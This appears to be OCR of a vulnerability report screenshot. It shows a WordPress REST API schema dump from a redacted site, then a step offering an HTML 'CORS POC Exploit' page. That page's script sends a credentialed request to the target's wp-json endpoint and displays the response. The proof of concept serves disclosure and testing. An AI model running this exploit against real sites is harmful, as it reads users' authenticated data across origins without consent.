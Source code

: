 <name>core\/tag-cloud)":{"namespace":"wp\/v2","methods":["GET"],"endpoints":[{"methods":["GET"],"args":{"name":{"required":false,"description":"Unique registered name for the block.","type":"string"},"context":{"required":false,"default":"view","enum":["edit"],"description":"Scope under which the request is made; determines fields present in response.","type":"string"},"attributes":{"required":false,"default":[],"description":"Attributes for core\/tag-cloud block","type":"object"},"post_id":{"required":false,"description":"ID of the post context.","type":"integer"}}}]},"\/wp\/v2\/settings":{"namespace":"wp\/v2","methods":["GET","POST","PUT","PATCH"],"endpoints":[{"methods":["GET"],"args":[]},{"methods":["POST","PUT","PATCH"],"args":{"title":{"required":false,"description":"Site title.","type":"string"},"description":{"required":false,"description":"Site tagline.","type":"string"},"url":{"required":false,"description":"Site URL.","type":"string"},"email":{"required":false,"description":"This address is used for admin purposes, like new user notification.","type":"string"},"timezone":{"required":false,"description":"A city in the same timezone as you.","type":"string"},"date_format":{"required":false,"description":"A date format for all date strings.","type":"string"},"time_format":{"required":false,"description":"A time format for all time strings.","type":"string"},"start_of_week":{"required":false,"description":"A day number of the week that the week should start on.","type":"integer"},"language":{"required":false,"description":"WordPress locale code.","type":"string"},"use_smilies":{"required":false,"description":"Convert emoticons like :-) and :-P to graphics on display.","type":"boolean"},"default_category":{"required":false,"description":"Default post category.","type":"integer"},"default_post_format":{"required":false,"description":"Default post format.","type":"string"},"posts_per_page":{"required":false,"description":"Blog pages show at most.","type":"integer"},"default_ping_status":{"required":false,"enum":["open","closed"],"description":"Allow link notifications from other blogs (pingbacks and trackbacks) on new articles.","type":"string"},"default_comment_status":{"required":false,"enum":["open","closed"],"description":"Allow people to submit comments on new posts.","type":"string"}}}],"_links":{"self":[{"href":"https:\/\/██████████\/wp-json\/wp\/v2\/settings"}]}},"\/wp\/v2\/themes":{"namespace":"wp\/v2","methods":["GET"],"endpoints":[{"methods":["GET"],"args":{"context":{"required":false,"description":"Scope under which the request is made; determines fields present in response.","type":"string"},"page":{"required":false,"default":1,"description":"Current page of the collection.","type":"integer"},"per_page":{"required":false,"default":10,"description":"Maximum number of items to be returned in result set.","type":"integer"},"search":{"required":false,"description":"Limit results to those matching a string.","type":"string"},"status":{"required":true,"description":"Limit result set to themes assigned one or more statuses.","type":"array","items":{"enum":["active"],"type":"string"}}}}],"_links":{"self":[{"href":"https:\/\/███████\/wp-json\/wp\/v2\/themes"}]}}},"_links":{"up":[{"href":"https:\/\/██████\/wp-json\/"}]}}

7- use this code 
<!DOCTYPE html>
<html>
<body>
<center>
<h2>CORS POC Exploit</h2>
<h3>Extract SID</h3>
 
<div id="demo">
<button type="button" onclick="cors()">Exploit</button>
</div>
 
<script>
function cors() {
  var xhttp = new XMLHttpRequest();
  xhttp.onreadystatechange = function() {
    if (this.readyState == 4 && this.status == 200) {
      document.getElementById("demo").innerHTML = alert(this.responseText);
    }
  };
  xhttp.open("GET", "https://█████████/wp-json/wp/v2/", true);
  xhttp.withCredentials = true;
  xhttp.send();
}
</script>
 